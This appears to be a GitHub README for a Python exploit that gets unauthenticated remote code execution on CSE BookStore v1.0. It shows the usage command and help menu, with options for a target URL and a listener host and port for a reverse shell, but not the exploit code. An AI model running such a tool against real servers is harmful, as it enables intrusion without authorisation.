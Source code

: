 # CSE Book Store Unauthenticated RCE
Automatic python3 script to exploit CSE BookStore v1.0

<hr>

#### 1. Basic Usage:
```txt
$ python3 cse_bookstore.py -u <url> -l <pentesterIP> -p <pentesterPort>
```
#### 2. Help Menu:
```txt
[13:37:13] Jae-Nguyen:~/Documents/pg/dawn/custom_expl$ python3 cse_bookstore.py --help
usage: cse_bookstore.py [-h] [-u URL] [-l LHOST] [-p LPORT]

----- CSE Bookstore Unauthenticated RCE -----

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to CSE Bookstore.
  -l LHOST, --lhost LHOST
                        Local host for a reverse shell.
  -p LPORT, --lport LPORT
                        Local port for a reverse shell.
```
#### 3. Example

![](example.gif)

